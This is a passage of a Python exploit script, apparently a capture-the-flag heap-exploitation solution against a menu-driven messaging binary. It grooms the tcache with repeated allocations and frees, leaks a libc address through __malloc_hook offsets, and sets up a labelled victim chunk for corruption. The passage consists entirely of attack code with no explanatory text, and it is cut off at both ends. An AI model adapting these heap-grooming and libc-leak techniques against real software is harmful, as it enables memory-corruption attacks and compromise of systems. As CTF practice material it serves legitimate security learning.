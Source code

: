 ```python
	ru("Message size:")
	sl(str(size))
	ru("Content:")
	sl(content)

def read_func():
	menu("read")

def list_func():
	menu("listuser")



ru("Enter new username:")
sl("chuwei1")


message_func("chuwei1",0x100,"a")

add("chuwei2")
for i in range(7):
	message_func("chuwei2",0x100,"a")


delete("chuwei2")
add("chuwei2")

delete("chuwei1")

read_func()

libc_base=uu64()-96-0x10-libc.sym['__malloc_hook']
#libc_base=uu64()-0x219ce0
lg("libc_base")

add("chuwei1")
for i in range(0x64):
	message_func("chuwei2",0x30,"aaaaaaaaaaaa")

for i in range(9):
	message_func("chuwei1",0x200,"aaaaaaaaaaaa")
add("chuwei3")
delete("chuwei1")
add("chuwei1")

for i in range(7):
	message_func("chuwei1",0x200,"aaaaaaaaaaaa")

message_func("chuwei3",0x200,"aaaaaaaaaaaa") #prev

message_func("chuwei2",0x200,"a"*0x100)

add("chuwei4")

message_func("chuwei4",0x200,"a"*0x100)   #vitim



delete("chuwei1")
add("chuwei1")

delete("chuwei4")
add("chuwei4")
```